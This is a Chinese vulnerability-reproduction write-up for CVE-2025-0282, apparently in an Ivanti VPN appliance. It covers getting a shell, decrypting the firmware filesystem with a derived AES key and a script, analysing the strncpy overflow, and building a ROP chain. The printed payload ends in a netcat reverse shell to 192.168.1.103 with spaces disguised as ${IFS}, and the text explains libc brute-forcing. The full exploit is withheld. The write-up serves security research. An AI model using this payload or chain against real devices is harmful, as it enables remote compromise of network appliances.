# CVE-2025-0282漏洞复现-先知社区

> **来源**: https://xz.aliyun.com/news/18481  
> **文章ID**: 18481

---

# 获取shell

配置好虚拟机后，拍一个快照，修改快照里的/home/bin/dsconfig.pl为/bin/bash

然后恢复快照就能拿到shell了

# 提取文件系统

python -m SimpleHTTPServer 8899

# 文件系统解密

首先分析一下group

```
set default=0
set timeout=5
insmod ext2
password 07ow3w3d743
serial --unit=0 --speed=9600 --word=8 --parity=no --stop=1
menuentry "Factory Reset" {
set root=(hd0,1)
    linux /kernel system=Z noconfirm rootdelay=5 console=ttyS0,115200n8 console=tty0 vm_hv_type=VMware 
    initrd /coreboot.img
}

```

initrd的文件系统是coreboot.img，但是coreboot.img是加密的，我们要指定当从内核态到文件系统时会chroot到initrd。

所以在内核中搜索chroot。





我们就能找到内核在chroot之前解密initrd的函数populate\_rootfs。

```
__int64 __fastcall populate_rootfs(
    int param1,
    int param2,
    __int64 param3,
    __int64 param4,
    __int64 param5,
    int param6,
    char flag)
{
    int v7; // esi
    __int64 v8; // rax
    int v9; // edx
    int v10; // ecx
    int v11; // r8d
    int v12; // r9d
    __int64 v13; // r13
    unsigned __int64 v14; // r12
    int v15; // edx
    int v16; // ecx
    int v17; // r8d
    int v18; // r9d
    unsigned __int64 tfm; // r14
    __int64 v20; // rdx
    __int64 v21; // rcx
    __int64 v22; // r8
    int v23; // eax
    _DWORD *v24; // rbx
    _DWORD *v25; // r15
    __int64 v26; // rbx
    __int64 v27; // rdx
    __int64 v28; // rcx
    __int64 v29; // r8
    int v30; // edx
    int v31; // ecx
    int v32; // r8d
    int v33; // r9d
    int v34; // eax
    unsigned int v35; // ebx
    __int64 v36; // rax
    int v37; // ecx
    int v38; // r8d
    int v39; // r9d
    __int128 v41; // [rsp-90h] [rbp-90h]
    int v42; // [rsp-74h] [rbp-74h]
    _DWORD v43[4]; // [rsp-70h] [rbp-70h] BYREF
    __int128 v44; // [rsp-60h] [rbp-60h] BYREF
    _DWORD v45[6]; // [rsp-50h] [rbp-50h] BYREF
    char *p_flag; // [rsp-38h] [rbp-38h]
    void *v47; // [rsp-8h] [rbp-8h]
    void *retaddr; // [rsp+0h] [rbp+0h]

    v47 = retaddr;
    p_flag = &flag;
    v7 = _irf_end;
    v8 = unpack_to_rootfs(&_security_initcall_end, _irf_end, param3, param4, param5);
    if ( v8 )
        panic(-2113148585, v8, v9, v10, v11, v12);
    if ( initrd_start )
    {
        printk(&unk_FFFFFFFF82055898, v7, v9, v10, v11, v12);
        v13 = initrd_start;
        v14 = (initrd_end - initrd_start);
        tfm = crypto_alloc_base(&aVaes[1], 0, 0);
        if ( tfm <= 0xFFFFFFFFFFFFF000LL )
        {
            v43[1] = HIDWORD(DSRAMFS_AES_KEY) ^ 0xAEEF41FE;
            v43[0] = DSRAMFS_AES_KEY ^ 0x99ED2BF2;
            v43[2] = qword_FFFFFFFF81E00168 ^ 0x141058C7;
            v43[3] = HIDWORD(qword_FFFFFFFF81E00168) ^ 0xD2ED180E;
            (*(tfm + 8))(tfm, v43, 16LL);
            v23 = 0;
            while ( v14 > 0x1FF )
            {
                v14 -= 512LL;
                LODWORD(v44) = v23;
                *(&v44 + 4) = 0LL;
                v24 = (v13 + (v23 << 9));
                v42 = v23 + 1;
                HIDWORD(v44) = 0;
                v25 = v24 + 128;
                (*(tfm + 24))(tfm, v45, &v44);
                do
                {
                    *v24 ^= v45[0];
                    v24[1] ^= v45[1];
                    v24[2] ^= v45[2];
                    v24[3] ^= v45[3];
                    v41 = *v24;
                    (*(tfm + 24))(tfm, v24, v24);
                    *v24 ^= v44;
                    v24[1] ^= DWORD1(v44);
                    v24[2] ^= DWORD2(v44);
                    v24[3] ^= HIDWORD(v44);
                    v24 += 4;
                    v44 = v41;
                }
                while ( v25 != v24 );
                v23 = v42;
            }
        }
        else
        {
            printk(&unk_FFFFFFFF820558D0, 0, v15, v16, v17, v18);
        }
        v26 = unpack_to_rootfs(initrd_start, initrd_end - initrd_start, v20, v21, v22);
        if ( !v26 )
        {
            LABEL_16:
            free_initrd();
            goto LABEL_17;
        }
        clean_rootfs();
        unpack_to_rootfs(&_security_initcall_end, _irf_end, v27, v28, v29);
        printk(&unk_FFFFFFFF820558F8, v26, v30, v31, v32, v33);
        v34 = do_sys_open(4294967196LL, aInitrdImage, 32833LL, 448LL);
        v35 = v34;
    if ( v34 >= 0 )
    {
      v36 = xwrite(v34, initrd_start, initrd_end - initrd_start);
      if ( initrd_end - initrd_start != v36 )
        printk(&unk_FFFFFFFF82055938, v36, initrd_end - initrd_start, v37, v38, v39);
      _close_fd(*(__readgsqword(&pid) + 1656), v35);
      goto LABEL_16;
    }
  }
LABEL_17:
  flush_delayed_fput();
  load_default_modules();
  return 0LL;
}
```

通过逆向知道了程序会把aes\_key进行异或得到异或key。

## 解密脚本

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import binascii
from tqdm import tqdm
from math import ceil

key = b'\xe1\xfc^\xb7\xd8AX\xda\xba\xd8\xeb\xbc\xf6\xcd*\x18'
fp = open('coreboot.img', 'rb')
encrypted_data = fp.read()
fp.close()
def xor(s1, s2):
    return bytes([c1 ^ c2 for c1, c2 in zip(s1, s2)])
def g(sector):
    data=encrypted_data[sector*512:(sector+1)*512]
    cipher = AES.new(key=key, mode=AES.MODE_ECB)
    def f(iv):
        pre_iv = cipher.decrypt(iv)
        for i in range(0, len(data), 16):
            ciphertext = xor(data[i:i+16], pre_iv)
            plaintext = cipher.decrypt(ciphertext)
            yield xor(plaintext, iv)
            iv = ciphertext
    iv = sector.to_bytes(length=16, byteorder='little')
    c = b''.join(f(iv))
    fp.write(c)
fp = open("111.gz", 'wb')
for i in tqdm(range(1+len(encrypted_data)//512)):
    g(i)
fp.close()
```



为什么用zcat，因为解密出来的文件系统gzip有很多脏数据，用zcat强制提取。



这样就解密成功拿到文件系统了。

# 虚函数表解引用方法



这里需要利用这个call，这里call去引用了虚函数表，但是在调用虚函数表前有一个解引用的操作。

如何找到这个解引用地址然后去跳转到gadget呢。



这里是我们要跳转的gadget的虚函数表地址，减0x48后是



然后我们可以利用引用这个地址的汇编，去滤掉指令实际就是我们这个地址。



这里00933e75+2实际就是存储的我们要的地址。

# 漏洞成因



漏洞是因为strncpy复制的字符串长度为输入长度，不是指定长度，所以会导致溢出覆盖

# 利用分析

在调试poc的时候发现程序会在



这个call虚函数地址处访问到非法地址。通过分析汇编知道的是传进去的eax是指向虚函数表的地址。



那我们可以利用这个call去跳转到gadget然后利用gadget进行抬栈和给ebx赋值(原因后面说)。



这个是我们要利用的gadget，然后通过上面的解引用方法找到指向gadget的地址。

## ebx的值

libdsplibs.so在编译时使用了-fipc ，会使用ebx传递got.plt地址。 ebx在plt调用时需要跳转到got表，所以需要传libdsplibs.so的got表地址。



但是这里又会需要注意一个问题因为程序用的strncpy会遇\x00截断，所以我们需要把got表地址-1传给ebx，然后通过在rop里指向inc ebx来恢复。

到这就明确了我们要构造的rop链了。

## rop链



```
buffer  = ('C' * target[:padding_to_vftable])
        buffer += [libdsplibs_base + target[:vftable_gadget_offset]].pack('V') # ptr to address + 0x48, to ptr, to gadget
        buffer += ('A' * target[:padding_to_next_frame])
        buffer += [libdsplibs_base + target[:offset_to_got_plt] - 1].pack('V') # ebx == got.plt - 1
        buffer += [0xCAFEBEEF].pack('V') # esi
        buffer += [0xCAFEBEEF].pack('V') # edi
        buffer += [0xCAFEBEEF].pack('V') # ebp
        buffer += [libdsplibs_base + target[:gadget_inc_ebx_ret]].pack('V') # inc ebx; ret;
        buffer += [libdsplibs_base + target[:gadget_mov_eax_esp_retn]].pack('V') # mov eax, esp; ret ;
        buffer += [libdsplibs_base + target[:gadget_add_eax_8_ret]].pack('V') # add eax, 8; ret;
        buffer += [libdsplibs_base + target[:gadget_add_eax_8_ret]].pack('V') # add eax, 8; ret;
        buffer += [libdsplibs_base + target[:gadget_add_eax_8_ret]].pack('V') # add eax, 8; ret;
        buffer += [libdsplibs_base + target[:gadget_add_eax_8_ret]].pack('V') # add eax, 8; ret;
        buffer += [libdsplibs_base + target[:gadget_add_eax_8_ret]].pack('V') # add eax, 8; ret;
        buffer += [libdsplibs_base + target[:gadget_mov_esp_eax_call_system]].pack('V') # mov [esp], eax; call system;
        buffer += [0xCAFEBEEF].pack('V')
        buffer += [0xCAFEBEEF].pack('V')
        buffer += [0xCAFEBEEF].pack('V')
        buffer += [0xCAFEBEEF].pack('V')
        buffer += "/tmp/busybox nc 192.168.1.103 2333 -e /bin/bash;#".gsub(' ', '${IFS}')
```

## 爆破libc地址

爆破libc只需要爆破3位数即可，例如0xf6473000，f6和000是固定的。只需要爆破473

# exp

exp这里就不提供了，相信师傅们能够写出。
